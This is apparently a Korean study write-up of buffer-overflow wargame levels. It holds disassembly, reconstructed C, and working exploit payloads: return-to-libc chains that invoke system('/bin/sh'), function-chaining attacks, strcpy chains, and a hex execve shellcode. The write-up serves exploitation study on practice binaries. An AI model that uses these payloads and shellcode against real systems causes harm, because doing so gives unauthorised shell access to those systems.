ldd명령어: 해당 바이너리가 가리키는 라이브러리 보여줌
awk: 해당 명령어를 공백과 탭을 이용해서 구분해줌. {print $4} ==> 4번째 출력을의미함.
(결과) (0x40018000): libc(표준라이브러리 시작주소

/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'

nm: /usr/bin/nm /lib/libc.so.6 해당 명령어가 제공하는 라이브러리 파일 볼 수 있음
offset: 첫번재부터 해당 함수까지 거리 ==>(결과) 00091d48
시작주소+offset하면 실제 주소 얻어올 수 있음

0x400a9d48 <__execve>
0x40058ae0 <__libc_system>
"/bin/sh" is at 0x400fbff9
```

#### /bin/sh 찾는 프로그램

```
int main(int argc, char **argv){
  long shell;
  shell = 0x4005e430;
  
  while(memcmp((void*)shell,"/bin/sh",8)) shell++;
  
  printf("\"/bin/sh\" is at 0x%x\n",shell);
}
```

#### execv()쓰는 법
```
#include <unistd.h>
// int execve( const char *filename, char *const argv[], char *constenvp[]);

int main(){
  char *shell[2];
  
  shell[0]="/bin/sh";
  shell[1]=NULL;
  
  execve("/bin/sh",shell,NULL);
  return 0;
}

execve: 0x400a9d48

r $(perl -e 'print "a"x44 . "\x48\x9d\x0a\x40"')

char *argv[] => 주소[NULL]

execve: 0x400a9d48
/bin/sh: 0x400fbff9
*argv[]: bffffb74(앞에는상관없고 뒤가 NULL이기만 하면 사용가능)
NULL: bffffb78 

buffer[40]
[쓰레기값44] + [(execve)함수호출주소] + [(system)함수호출주소]+ [호출된system함수의 ret주소=>쓰레기값으로 채워줌(4바이트)] + [system함수의 인자값: (/bin/sh)의 주소]

./giant "$(perl -e 'print "a"x44 ."\x48\x9d\x0a\x40" . "\xe0\x8a\x05\x40" . "a"x4 ."\xf9\xbf\x0f\x40"')"

*펄/파이썬에서 \x0a가 new line이므로 \x00 으로 인식하는 버그 있음=>""로 감싸주면 해결 가능

*참고 execv함수: 다른 프로그램을 실행시키는 함수

./giant "$(perl -e 'print "a"x44 . "\x48\x9d\x0a\x40" . "aaaa" . "\xf9\xbf\x0f\x40" . "\x94\xfb\xff\xbf" . "\x78\xfb\xff\xbf"')"

\x74~~>\x94에서 깨짐.

execve호출->system호출->더미4->/bin/sh주소 해도 상관없음
```

## (15) LEVEL 15: giant / one step closer

### 문제 개요
**assembly 코드**
```
0x8048470  <main>:       push   %ebp   
0x8048471  <main+1>:     mov    %ebp,%esp    

0x8048473  <main+3>:     sub    %esp,40       

0x8048476  <main+6>:     cmp    DWORD PTR  [%ebp+8],1   
0x804847a  <main+10>:    jg     0x8048493  <main+35>   
0x804847c  <main+12>:    push   0x8048570   
0x8048481  <main+17>:    call   0x8048378  <printf>   
0x8048486  <main+22>:    add    %esp,4       

0x8048489  <main+25>:    push   0   
0x804848b  <main+27>:    call   0x8048388  <exit>   
0x8048490  <main+32>:    add    %esp,4    

0x8048493  <main+35>:    mov    %eax,DWORD PTR [%ebp+12]   
0x8048496  <main+38>:    add    %eax,4   
0x8048499  <main+41>:    mov    %edx,DWORD PTR [%eax]   
0x804849b  <main+43>:    add    %edx,47   
0x804849e  <main+46>:    cmp    BYTE PTR  [%edx],0xbf   
0x80484a1  <main+49>:    jne    0x80484c0  <main+80>   
0x80484a3  <main+51>:    push   0x804857c   
0x80484a8  <main+56>:    call   0x8048378  <printf>   
0x80484ad  <main+61>:    add    %esp,4       

0x80484b0  <main+64>:    push   0   
0x80484b2  <main+66>:    call   0x8048388 <exit>  
0x80484b7  <main+71>:    add    %esp,4       

0x80484ba  <main+74>:    lea    %esi,[%esi]   
0x80484c0  <main+80>:    mov    %eax,DWORD PTR  [%ebp+12]   
0x80484c3  <main+83>:    add    %eax,4   
0x80484c6  <main+86>:    mov    %edx,DWORD PTR  [%eax]   
0x80484c8  <main+88>:    add    %edx,47   
0x80484cb  <main+91>:    cmp    BYTE PTR [%edx],0x40   
0x80484ce  <main+94>:    jne    0x80484e7  <main+119>   
0x80484d0  <main+96>:    push   0x8048591   
0x80484d5  <main+101>:   call   0x8048378 <printf>   
0x80484da  <main+106>:   add    %esp,4       

0x80484dd  <main+109>:   push   0   
0x80484df  <main+111>:   call   0x8048388 <exit>  
0x80484e4  <main+116>:   add    %esp,4       

0x80484e7  <main+119>:   mov    %eax,DWORD PTR  [%ebp+12]   
0x80484ea  <main+122>:   add    %eax,4   
0x80484ed  <main+125>:   mov    %edx,DWORD PTR  [%eax]   
0x80484ef  <main+127>:   push   %edx   
0x80484f0  <main+128>:   lea    %eax,[%ebp-40]   
0x80484f3  <main+131>:   push   %eax   
0x80484f4  <main+132>:   call   0x80483a8 <strcpy>   
0x80484f9  <main+137>:   add    %esp,8    

0x80484fc  <main+140>:   lea    %eax,[%ebp-40]   
0x80484ff  <main+143>:   push   %eax   
0x8048500  <main+144>:   push   0x80485ae   
0x8048505  <main+149>:   call   0x8048378 <printf>   
0x804850a  <main+154>:   add    %esp,8    

0x804850d  <main+157>:   push   44   
0x804850f  <main+159>:   push   0   
0x8048511  <main+161>:   lea    %eax,[%ebp-40]   
0x8048514  <main+164>:   push   %eax   
0x8048515  <main+165>:   call   0x8048398 <memset>   
0x804851a  <main+170>:   add    %esp,12    

0x804851d  <main+173>:   leave   
0x804851e  <main+174>:   ret   
0x804851f  <main+175>:   nop
```

**c언어로 예측하여 변환한 코드**
```
char buffer[40];
if(argv<=1){
  printf("argv error\n");
  exit(0);
}

if(argv1 == "0xbf"){
  printf("stack retbayed you!\n");
  exit(0);
}

if(argv1 == "\x40"){
  printf( "library retbayed you, too!!\n");
  exit(0);
}

strcpy(buffer,argv[1]);
printf("%s\n",buffer);

memset(buffer,0,44);

0x40058ae0 <__libc_system>
"/bin/sh" is at 0x400fbff9
```

**/bin/sh 찾는 프로그램**
```
int main(int argc, char **argv){
  long shell;
  shell=0x4005e430;
  while(memcmp((void*)shell,"/bin/sh",8)) shell++;
  printf("\"/bin/sh\" is at 0x%x\n",shell);
}
```

### 제약조건
- 스택 메모리 못씀
- 공유라이브러리 못씀
- 텍스트메모리영역(08로 시작하는 주소) 사용 가능
- 이 문제는 bash바꾸지 않아도 상관없음

### 문제풀이
```
buffer[40]
[쓰레기값44] + [(ret)함수호출주소] + [(system)함수호출주소] + [호출된system함수의 ret주소=>쓰레기값으로 채워줌(4바이트)] + [system함수의 인자값: (/bin/sh)의 주소]

./assassin $(perl -e 'print "a"x44 . "\x1e\x85\x04\x08" . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40"')
```

## (16) LEVEL 16: assassin / pushing me away

### 문제 개요

**assembly 코드**

```
0x8048440  <main>:       push   %ebp   
0x8048441  <main+1>:     mov    %ebp,%esp     

0x8048443  <main+3>:     sub    %esp,40     

0x8048446  <main+6>:     cmp    DWORD PTR  [%ebp+8],1   
0x804844a  <main+10>:    jg     0x8048463  <main+35>     

0x804844c  <main+12>:    push   0x8048540   
0x8048451  <main+17>:    call   0x8048354  <printf>   
0x8048456  <main+22>:    add    %esp,4   
0x8048459  <main+25>:    push   0   
0x804845b  <main+27>:    call   0x8048364  <exit>   
0x8048460  <main+32>:    add    %esp,4     

0x8048463  <main+35>:    mov    %eax,DWORD PTR  [%ebp+12]   
0x8048466  <main+38>:    add    %eax,4   
0x8048469  <main+41>:    mov    %edx,DWORD PTR  [%eax]   
0x804846b  <main+43>:    add    %edx,47   
0x804846e  <main+46>:    cmp    BYTE PTR  [%edx],0xbf   
0x8048471  <main+49>:    jne    0x8048490  <main+80>   
0x8048473  <main+51>:    push   0x804854c   
0x8048478  <main+56>:    call   0x8048354  <printf>   
0x804847d  <main+61>:    add    %esp,4     

0x8048480  <main+64>:    push   0   
0x8048482  <main+66>:    call   0x8048364  <exit>   
0x8048487  <main+71>:    add    %esp,4     

0x804848a  <main+74>:    lea    %esi,[%esi]   
0x8048490  <main+80>:    mov    %eax,DWORD PTR  [%ebp+12]   
0x8048493  <main+83>:    add    %eax,4   
0x8048496  <main+86>:    mov    %edx,DWORD PTR  [%eax]   
0x8048498  <main+88>:    add    %edx,47   
0x804849b  <main+91>:    cmp    BYTE PTR  [%edx],0x40   
0x804849e  <main+94>:    jne    0x80484b7 <main+119>     

0x80484a0  <main+96>:    push   0x8048561   
0x80484a5  <main+101>:   call   0x8048354 <printf>   
0x80484aa  <main+106>:   add    %esp,4     

0x80484ad  <main+109>:   push   0   
0x80484af  <main+111>:   call   0x8048364 <exit>   
0x80484b4  <main+116>:   add    %esp,4     

0x80484b7  <main+119>:   push   48   
0x80484b9  <main+121>:   mov    %eax,DWORD PTR  [%ebp+12]   
0x80484bc  <main+124>:   add    %eax,4   
0x80484bf  <main+127>:   mov    %edx,DWORD PTR  [%eax]   
0x80484c1  <main+129>:   push   %edx   
0x80484c2  <main+130>:   lea    %eax,[%ebp-40]   
0x80484c5  <main+133>:   push   %eax   
0x80484c6  <main+134>:   call   0x8048374  <strncpy>   
0x80484cb  <main+139>:   add    %esp,12     

0x80484ce  <main+142>:   lea    %eax,[%ebp-40]   
0x80484d1  <main+145>:   push   %eax     

0x80484d2  <main+146>:   push   0x804857e   
0x80484d7  <main+151>:   call   0x8048354 <printf>   
0x80484dc  <main+156>:   add    %esp,8   
0x80484df  <main+159>:   leave   
0x80484e0  <main+160>:   ret
```                                          	               

**c언어로 예측하여 변환한 코드**
```
if(argc<=1){
  printf("argv error\n");
  exit(0);
}

if(argv1 == "0xbf"){ // 스택메모리사용x
  printf("stack retbayed you!\n");
  exit(0);
}

if(argv1=="0x40"){ // 라이브러리사용x
  printf("library retbayed you, too!!\n");
  exit(0);
}

strncpy(buffer,argv[1],48);
printf("%s\n",buffer);
```

### 문제풀이
```
./zombie_assassin $(perl -e 'print "a"x44 . "\xe0\x84\x04\x08" . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40"')

system함수 주소: 0x40058ae0
leave주소: 0x80484df
ret주소:0x80484e0
/bin/sh주소: 0x400fbff9

start함수는 에필로그가 없음
따라서 main함수의 ebp를 바꾸어도 소용없음
에필로그가 있는 다른 함수를 호출해주어야 함
=> 리턴 어드레스를 바꾸어주면 됨!

리턴어드레스 = eip = EBP+4

./zombie_assassin $(perl -e 'print "a"x4 . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40" . "a"x24 . "\xa0\xfa\xff\xbf" . "\xdf\x84\x04\x08"')

bffffae0 -> a0로 바꾸어주어야함

leave과정에서 mov esp, ebp
pop ebp(esp가 가리키고있는곳의 값이 ebp가 됨)

ret = pop eip(ebp+4)
```

## (17) LEVEL 17: zombie_assassin /no place to hide

### 문제 개요

**assembly 코드**

#### disassemble main
```
0x8048808  <main>:       push   %ebp   
0x8048809  <main+1>:     mov    %ebp,%esp     

0x804880b  <main+3>:     sub    %esp,44     

0x804880e  <main+6>:     cmp    DWORD PTR  [%ebp+8],1   
0x8048812  <main+10>:    jg     0x8048830  <main+40>   
0x8048814  <main+12>:    push   0x8048a22   
0x8048819  <main+17>:    call   0x804844c  <printf>   
0x804881e  <main+22>:    add    %esp,4   
0x8048821  <main+25>:    push   0   
0x8048823  <main+27>:    call   0x804845c <exit>   
0x8048828  <main+32>:    add    %esp,4     

0x804882b  <main+35>:    nop   
0x804882c  <main+36>:    lea    %esi,[%esi*1]   
0x8048830  <main+40>:    push   64   
0x8048832  <main+42>:    mov    %eax,DWORD PTR [%ebp+12]   
0x8048835  <main+45>:    add    %eax,4   
0x8048838  <main+48>:    mov    %edx,DWORD PTR  [%eax]   
0x804883a  <main+50>:    push   %edx   
0x804883b  <main+51>:    call   0x80483dc  <strchr>   
0x8048840  <main+56>:    add    %esp,8      

0x8048843  <main+59>:    mov    %eax,%eax   
0x8048845  <main+61>:    test   %eax,%eax   // 아래 참조!
0x8048847  <main+63>:    je     0x8048860  <main+88>   
0x8048849  <main+65>:    push   0x8048a2e   
0x804884e  <main+70>:    call   0x804844c  <printf>   
0x8048853  <main+75>:    add    %esp,4   
0x8048856  <main+78>:    push   0   
0x8048858  <main+80>:    call   0x804845c <exit>   
0x804885d  <main+85>:    add    %esp,4     

0x8048860  <main+88>:    mov    DWORD PTR [%ebp-44],0x80487ec     

0x8048867  <main+95>:    push   4   
0x8048869  <main+97>:    lea    %eax,[%ebp-44]   
0x804886c  <main+100>:   push   %eax   
0x804886d  <main+101>:   mov    %eax,DWORD PTR [%ebp+12]   
0x8048870  <main+104>:   add    %eax,4   
0x8048873  <main+107>:   mov    %edx,DWORD PTR  [%eax]   
0x8048875  <main+109>:   add    %edx,44   
0x8048878  <main+112>:   push   %edx   
0x8048879  <main+113>:   call   0x804842c <memcmp>   
0x804887e  <main+118>:   add    %esp,12     

0x8048881  <main+121>:   mov    %eax,%eax   
0x8048883  <main+123>:   test   %eax,%eax // 아래 참조!
0x8048885  <main+125>:   je     0x80488a0 <main+152>   
0x8048887  <main+127>:   push   0x8048a60   
0x804888c  <main+132>:   call   0x804844c <printf>   
0x8048891  <main+137>:   add    %esp,4   
0x8048894  <main+140>:   push   0   
0x8048896  <main+142>:   call   0x804845c <exit>   
0x804889b  <main+147>:   add    %esp,4     

0x804889e  <main+150>:   mov    %esi,%esi   
0x80488a0  <main+152>:   mov    %eax,DWORD PTR [%ebp+12]   
0x80488a3  <main+155>:   add    %eax,4   
0x80488a6  <main+158>:   mov    %edx,DWORD PTR [%eax]   
0x80488a8  <main+160>:   push   %edx   
0x80488a9  <main+161>:   lea    %eax,[%ebp-40]   
0x80488ac  <main+164>:   push   %eax   
0x80488ad  <main+165>:   call   0x804847c <strcpy>   
0x80488b2  <main+170>:   add    %esp,8     

0x80488b5  <main+173>:   lea    %eax,[%ebp-40]   
0x80488b8  <main+176>:   push   %eax   
0x80488b9  <main+177>:   push   0x8048a7f   
0x80488be  <main+182>:   call   0x804844c <printf>   
0x80488c3  <main+187>:   add    %esp,8     

0x80488c6  <main+190>:   push   44   
0x80488c8  <main+192>:   push   0   
0x80488ca  <main+194>:   lea    %eax,[%ebp-40]   
0x80488cd  <main+197>:   push   %eax   
0x80488ce  <main+198>:   call   0x804846c <memset>   
0x80488d3  <main+203>:   add    %esp,12     

0x80488d6  <main+206>:   lea    %eax,[%ebp-40]   
0x80488d9  <main+209>:   mov    %edx,0xbfffff6b   
0x80488de  <main+214>:   mov    %ecx,%edx   
0x80488e0  <main+216>:   sub    %ecx,%eax   
0x80488e2  <main+218>:   mov    %eax,%ecx   
0x80488e4  <main+220>:   push   %eax   
0x80488e5  <main+221>:   push   0   
0x80488e7  <main+223>:   lea    %eax,[%ebp-40]   
0x80488ea  <main+226>:   lea    %edx,[%eax+148]   
0x80488f0  <main+232>:   push   %edx   
0x80488f1  <main+233>:   call   0x804846c <memset>   
0x80488f6  <main+238>:   add    %esp,12     

0x80488f9  <main+241>:   push   0xb90   
0x80488fe  <main+246>:   push   0   
0x8048900  <main+248>:   lea    %eax,[%ebp-40]   
0x8048903  <main+251>:   lea    %edx,[%eax-3000]   
0x8048909  <main+257>:   push   %edx   
0x804890a  <main+258>:   call   0x804846c <memset>   
0x804890f  <main+263>:   add    %esp,12     

0x8048912  <main+266>:   leave   
0x8048913  <main+267>:   ret
```

#### disassemble DO

```
0x80487ec  <DO>:         push   %ebp   
0x80487ed  <DO+1>:       mov    %ebp,%esp     

0x80487ef <DO+3>:        push   0x8048a0e   
0x80487f4  <DO+8>:       call   0x804844c  <printf>   
0x80487f9  <DO+13>:      add    %esp,4     

0x80487fc  <DO+16>:      mov    %ds:0x8049a90,0x1     

0x8048806  <DO+26>:      leave   
0x8048807  <DO+27>:      ret
```

#### disassemble GYE

```
0x80487bc  <GYE>:        push   %ebp   
0x80487bd  <GYE+1>:      mov    %ebp,%esp     

0x80487bf  <GYE+3>:      cmp    %ds:0x8049a90,1   
0x80487c6  <GYE+10>:     je     0x80487d2  <GYE+22>     

0x80487c8  <GYE+12>:     push   0   
0x80487ca  <GYE+14>:     call   0x804845c  <exit>   
0x80487cf  <GYE+19>:     add    %esp,4     

0x80487d2  <GYE+22>:     push   0x80489f9   
0x80487d7  <GYE+27>:     call   0x804844c  <printf>   
0x80487dc  <GYE+32>:     add    %esp,4     

0x80487df  <GYE+35>:     mov    %ds:0x8049a90,0x2     

0x80487e9  <GYE+45>:     leave   
0x80487ea  <GYE+46>:     ret   
0x80487eb  <GYE+47>:     nop
```

#### disassemble GUL
```
0x804878c  <GUL>:        push   %ebp   
0x804878d  <GUL+1>:      mov    %ebp,%esp     

0x804878f  <GUL+3>:      cmp    %ds:0x8049a90,2   
0x8048796  <GUL+10>:     je     0x80487a2  <GUL+22>   
0x8048798  <GUL+12>:     push   0   
0x804879a  <GUL+14>:     call   0x804845c  <exit>   
0x804879f  <GUL+19>:     add    %esp,4     

0x80487a2  <GUL+22>:     push   0x80489e4   
0x80487a7  <GUL+27>:     call   0x804844c  <printf>   
0x80487ac  <GUL+32>:     add    %esp,4     

0x80487af  <GUL+35>:     mov    %ds:0x8049a90,0x3     

0x80487b9 <GUL+45>:      leave   
0x80487ba  <GUL+46>:     ret   
0x80487bb  <GUL+47>:     nop
```

#### disassemble YUT

```
0x804875c  <YUT>:        push   %ebp   
0x804875d  <YUT+1>:      mov    %ebp,%esp     

0x804875f  <YUT+3>:      cmp    %ds:0x8049a90,3   
0x8048766  <YUT+10>:     je     0x8048772  <YUT+22>     

0x8048768  <YUT+12>:     push   0   
0x804876a  <YUT+14>:     call   0x804845c  <exit>   
0x804876f  <YUT+19>:     add    %esp,4     

0x8048772 <YUT+22>:      push   0x80489cf   
0x8048777  <YUT+27>:     call   0x804844c  <printf>   
0x804877c <YUT+32>:      add    %esp,4     

0x804877f  <YUT+35>:     mov    %ds:0x8049a90,0x4     

0x8048789  <YUT+45>:     leave   
0x804878a  <YUT+46>:     ret   
0x804878b  <YUT+47>:     nop
```

#### disassemble MO

```
0x8048724  <MO>:         push   %ebp   
0x8048725  <MO+1>:       mov    %ebp,%esp     

0x8048727  <MO+3>:       cmp    %ds:0x8049a90,4   
0x804872e  <MO+10>:      je     0x8048740 <MO+28>     

0x8048730  <MO+12>:      push   0   
0x8048732  <MO+14>:      call   0x804845c  <exit>   
0x8048737  <MO+19>:      add    %esp,4     

0x804873a  <MO+22>:      lea    %esi,[%esi]   
0x8048740  <MO+28>:      push   0x80489bb   
0x8048745  <MO+33>:      call   0x804844c  <printf>   
0x804874a  <MO+38>:      add    %esp,4     

0x804874d  <MO+41>:      mov    %eax,DWORD PTR [%ebp+8]   0x8048750  <MO+44>:      push   %eax   
0x8048751  <MO+45>:      call   0x804840c  <system>   
0x8048756  <MO+50>:      add    %esp,4     

0x8048759  <MO+53>:      leave  0
x804875a   <MO+54>:      ret    0
x804875b   <MO+55>:      nop
```

### 참고: 함수 원형
```
STRCHR(3)          Linux Programmer's Manual          STRCHR(3

NAME
  strchr - locate character in string

SYNOPSIS
  #include <string.h>
  char *strchr(const char *s, int c);

DESCRIPTION
  The  strchr()  function  returns  a  pointer  to the first  occurrence of the character c in the string s.

  The strrchr() function  returns  a  pointer  to the  last   occurrence of the character c in the string s. 
```

### 참고: assembly에서 test
- 위 코드 `0x8048845  <main+61>, 0x8048883  <main+123>`에 나옴
- cmp와 비슷하나, cmp는 빼기 연산을 하는 반면, test는 and 연산임
- 둘다 결과를 저장하지는 않음
- c언어로 표현하자면 `if( )/while` 이 됨

### 문제풀이
```
$(perl -e 'print "a"x44 . "\xec\x87\x04\x08"')

0x80487ec <DO>
0x80487bc <GYE>
0x804878c <GUL>
0x804875c <YUT>
0x8048724 <MO>
0x804840c <system>
0x400fbff9 </bin/sh>

MO에서 system함수를 호출하므로 그 인자로 셸코드를 올려서 해결(/bin/sh주소는 사용불가)
```

#### SHELL CODE
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

./succubus $(perl -e 'print "\x90"x44 ."\xec\x87\x04\x08\xbc\x87\x04\x08\x8c\x87\x04\x08\x5c\x87\x04\x08\x24\x87\x04\x08". "\xac\xfa\xff\xbf" . "ffff" . "\x90"x4 ."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')

44byte+[DO...MO addr 20]+[ret 4]+[dummy4]+[nop3+shellcode25]

total 100byte (버퍼 뒷부분까지총 100바이트남 남음)

shell code: bffffaa4

./succubus $(perl -e 'print "\x90"x44 ."\xec\x87\x04\x08\xbc\x87\x04\x08\x8c\x87\x04\x08\x5c\x87\x04\x08\x24\x87\x04\x08". "\xa4\xfa\xff\xbf" . "ffff" . "\x90"x3 ."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
```

## (18) LEVEL 18: succubus / here to stay

### 문제 개요
**assembly 코드**
```
0x80486b4  <main>:       push   %ebp   
0x80486b5  <main+1>:     mov    %ebp,%esp     

0x80486b7  <main+3>:     sub    %esp,44     

0x80486ba  <main+6>:     cmp    DWORD PTR  [%ebp+8],1   
0x80486be  <main+10>:    jg     0x80486d7  <main+35>   
0x80486c0  <main+12>:    push   0x80487db   
0x80486c5  <main+17>:    call   0x80483e0  <printf>   
0x80486ca  <main+22>:    add    %esp,4   
0x80486cd  <main+25>:    push   0   
0x80486cf  <main+27>:    call   0x80483f0 <exit>   
0x80486d4  <main+32>:    add    %esp,4     

0x80486d7  <main+35>:    mov    DWORD PTR  [%ebp-44],0x8048410   
0x80486de  <main+42>:    push   4   
0x80486e0  <main+44>:    lea    %eax,[%ebp-44]   
0x80486e3  <main+47>:    push   %eax   
0x80486e4  <main+48>:    mov    %eax,DWORD PTR  [%ebp+12]   
0x80486e7  <main+51>:    add    %eax,4     

0x80486ea  <main+54>:    mov    %edx,DWORD PTR  [%eax]   
0x80486ec  <main+56>:    add    %edx,44     

0x80486ef  <main+59>:    push   %edx   
0x80486f0  <main+60>:    call   0x80483c0  <memcmp>   
0x80486f5  <main+65>:    add    %esp,12      

0x80486f8  <main+68>:    mov    %eax,%eax   
0x80486fa  <main+70>:    test   %eax,%eax   
0x80486fc  <main+72>:    je     0x8048715  <main+97>   
0x80486fe  <main+74>:    push   0x8048800   
0x8048703  <main+79>:    call   0x80483e0  <printf>   
0x8048708  <main+84>:    add    %esp,4     

0x804870b  <main+87>:    push   0   
0x804870d  <main+89>:    call   0x80483f0  <exit>   
0x8048712  <main+94>:    add    %esp,4     

0x8048715  <main+97>:    mov    %eax,DWORD PTR  [%ebp+12]   
0x8048718  <main+100>:   add    %eax,4     

0x804871b  <main+103>:   mov    %edx,DWORD PTR  [%eax]   
0x804871d  <main+105>:   push   %edx   
0x804871e  <main+106>:   lea    %eax,[%ebp-40]   
0x8048721  <main+109>:   push   %eax   
0x8048722  <main+110>:   call   0x8048410 <strcpy>   
0x8048727  <main+115>:   add    %esp,8     

0x804872a  <main+118>:   lea    %eax,[%ebp-40]   
0x804872d  <main+121>:   push   %eax   
0x804872e  <main+122>:   push   0x8048825   
0x8048733  <main+127>:   call   0x80483e0 <printf>   
0x8048738  <main+132>:   add    %esp,8     

0x804873b  <main+135>:   push   4   
0x804873d  <main+137>:   push   65   
0x804873f  <main+139>:   lea    %eax,[%ebp-40]   
0x8048742  <main+142>:   lea    %edx,[%eax+48]   
0x8048745  <main+145>:   push   %edx   
0x8048746  <main+146>:   call   0x8048400 <memset>   
0x804874b  <main+151>:   add    %esp,12     

0x804874e  <main+154>:   leave   
0x804874f  <main+155>:   ret
```

- ebp-40: buffer
- ebp-44: addr

**c언어로 예측하여 변환한 코드**
```
if(argc<=1){
  printf("argv error\n");
  exit(0);
}

memcmp(argv[1][44],0x8048410<strcpy>,4)

if(flag != 1){
  printf("You must fall in love with strcpy()\n");
  exit(0);
}

strcpy(buffer,argv[1]);
printf("%s\n",buffer);
memset(argc,65,4);
```

### 문제풀이
```
memset(argc,65,4);
memset(초기화할 곳, 어떤 데이터로 초기화할지, 얼마만큼 초기화할지)

argv영역을 65(10진수)--> <16진수로는 41>로 4바이트만큼 초기화

<strcpy>
char *strcpy(char *dest, const char *src);

r $(perl -e 'print "a"x44 . "\x10\x84\x04\x08"')
./aa $(perl -e 'print "a"x44 ."\x10\x84\x04\x08"')

ret부분이 strcpy함수주소가 아니면 exit됨
```

- nop + shell + strcmp + shell

```
<system> 0x40058ae0
</bin/sh>  0x400fbff9

[strcpy(원래는 ret)] [ ret2 ] [ &dest ] [ &src ] 의 형태로 넣어주면 src->dest 데이터를 복사할 수 있음

[ buffer(40) ] [ sfp(4) ] [ strcpy(4) ] [ ret2(4) ] [ &dest(4) ] [ &src(4) ]

[ system ] [ aaaa ] [ /bin/sh ] [ dummy(32) ] [ strcpy ] [ ret2 ] [ &ret2 ] [ &buffer ]

<system> : 0x40058ae0
</bin/sh> : 0x400fbff9
&buffer: bf/ff/fa/a0
&ret : bf/ff/fa/d0

./nightmare $(perl -e 'print "\xe0\x8a\x05\x40" ."aaaa" . "\xf9\xbf\x0f\x40" . "a"x32 ."\x10\x84\x04\x08" . "retn" . "\xe0\xfa\xff\xbf". "\xb0\xfa\xff\xbf"')

&ret2, &buffer를 동시에 16바이트씩 변경하였음
한개 올렸더니 깨짐
```

## (19) nightmare / beg for me

### 문제 개요
**assembly 코드**
```
0x8048714  <main>:       push   %ebp   
0x8048715  <main+1>:     mov    %ebp,%esp     

0x8048717  <main+3>:     sub    %esp,44     

0x804871a  <main+6>:     mov    %eax,%ds:0x8049a3c   
0x804871f  <main+11>:    push   %eax   
0x8048720  <main+12>:    push   0x100   
0x8048725  <main+17>:    lea    %eax,[%ebp-40]   
0x8048728  <main+20>:    push   %eax   
0x8048729  <main+21>:    call   0x8048408 <fgets>   
0x804872e  <main+26>:    add    %esp,12     

0x8048731  <main+29>:    lea    %eax,[%ebp-40]   
0x8048734  <main+32>:    push   %eax   
0x8048735  <main+33>:    push   0x80488bb   
0x804873a  <main+38>:    call   0x8048438  <printf>   
0x804873f  <main+43>:    add    %esp,8     

0x8048742  <main+46>:    cmp    BYTE PTR [%ebp+7],0xbf   
0x8048746  <main+50>:    jne    0x8048760  <main+76>   
0x8048748  <main+52>:    push   0x80488bf   
0x804874d  <main+57>:    call   0x8048438  <printf>   
0x8048752  <main+62>:    add    %esp,4     

0x8048755  <main+65>:    push   0   
0x8048757  <main+67>:    call   0x8048458 <exit>   
0x804875c  <main+72>:    add    %esp,4     

0x804875f  <main+75>:    nop       

0x8048760  <main+76>:    cmp    BYTE PTR  [%ebp+7],0x8   
0x8048764  <main+80>:    jne    0x8048780 <main+108>   
0x8048766  <main+82>:    push   0x80488e0   
0x804876b  <main+87>:    call   0x8048438 <printf>   
0x8048770  <main+92>:    add    %esp,4     

0x8048773  <main+95>:    push   0   
0x8048775  <main+97>:    call   0x8048458  <exit>   
0x804877a  <main+102>:   add    %esp,4     

0x804877d  <main+105>:   lea    %esi,[%esi]     

0x8048780  <main+108>:   push   4   
0x8048782  <main+110>:   lea    %eax,[%ebp-40]   
0x8048785  <main+113>:   lea    %edx,[%eax+44]   
0x8048788  <main+116>:   push   %edx   
0x8048789  <main+117>:   lea    %eax,[%ebp-44]   
0x804878c  <main+120>:   push   %eax   
0x804878d  <main+121>:   call   0x8048448 <memcpy>   
0x8048792  <main+126>:   add    %esp,12     

0x8048795  <main+129>:   push   2   
0x8048797  <main+131>:   push   0x8048902   
0x804879c  <main+136>:   mov    %eax,DWORD PTR  [%ebp-44]   
0x804879f  <main+139>:   push   %eax   
0x80487a0  <main+140>:   call   0x8048418 <memcmp>   
0x80487a5  <main+145>:   add    %esp,12     

0x80487a8  <main+148>:   mov    %eax,%eax   
0x80487aa  <main+150>:   test   %eax,%eax   
0x80487ac  <main+152>:   jne    0x80487b0  <main+156>   
0x80487ae  <main+154>:   jmp    0x80487e0  <main+204>   
0x80487b0  <main+156>:   mov    %eax,DWORD PTR [%ebp-44]   
0x80487b3  <main+159>:   cmp    BYTE PTR  [%eax],0xc9   
0x80487b6  <main+162>:   jne    0x80487d8 <main+196>   
0x80487b8  <main+164>:   mov    %eax,DWORD PTR  [%ebp-44]   
0x80487bb  <main+167>:   inc    %eax   
0x80487bc  <main+168>:   cmp    BYTE PTR  [%eax],0xc3   
0x80487bf  <main+171>:   jne    0x80487d8  <main+196>   
0x80487c1  <main+173>:   push   0x8048920   
0x80487c6  <main+178>:   call   0x8048438 <printf>   
0x80487cb  <main+183>:   add    %esp,4     

0x80487ce  <main+186>:   push   0   
0x80487d0  <main+188>:   call   0x8048458 <exit>   
0x80487d5  <main+193>:   add    %esp,4     

0x80487d8  <main+196>:   inc    DWORD PTR [%ebp-44]   
0x80487db  <main+199>:   jmp    0x8048795 <main+129>     

0x80487dd  <main+201>:   lea    %esi,[%esi]     

0x80487e0  <main+204>:   push   44   
0x80487e2  <main+206>:   push   0   
0x80487e4  <main+208>:   lea    %eax,[%ebp-40]   
0x80487e7  <main+211>:   push   %eax   
0x80487e8  <main+212>:   call   0x8048468 <memset>   
0x80487ed  <main+217>:   add    %esp,12     

0x80487f0  <main+220>:   lea    %eax,[%ebp-40]   
0x80487f3  <main+223>:   mov    %edx,0xbfffffcf   
0x80487f8  <main+228>:   mov    %ecx,%edx   
0x80487fa  <main+230>:   sub    %ecx,%eax   
0x80487fc  <main+232>:   mov    %eax,%ecx   
0x80487fe  <main+234>:   push   %eax   
0x80487ff  <main+235>:   push   0   
0x8048801  <main+237>:   lea    %eax,[%ebp-40]   
0x8048804  <main+240>:   lea    %edx,[%eax+48]   
0x8048807  <main+243>:   push   %edx   
0x8048808  <main+244>:   call   0x8048468 <memset>   
0x804880d  <main+249>:   add    %esp,12     

